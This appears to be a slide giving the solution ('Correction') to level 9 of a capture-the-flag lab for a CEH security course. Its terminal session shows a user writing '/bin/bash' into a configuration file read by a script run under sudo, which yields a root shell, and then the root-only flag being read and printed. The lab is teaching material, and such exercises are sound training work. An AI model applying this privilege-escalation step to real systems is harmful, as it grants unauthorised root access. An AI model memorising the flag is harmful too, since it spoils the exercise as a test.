

CORRECTION / Niveau 9

level9@clusir-ceh-20200212:~$ echo "/bin/bash" > /etc/.cmder/cmder.conf

level9@clusir-ceh-20200212:~$ sudo python3 /opt/scripts/cmder.py

root@clusir-ceh-20200212:~# cat /root/flag
${CLUSIRceh2020|n8N2FB8}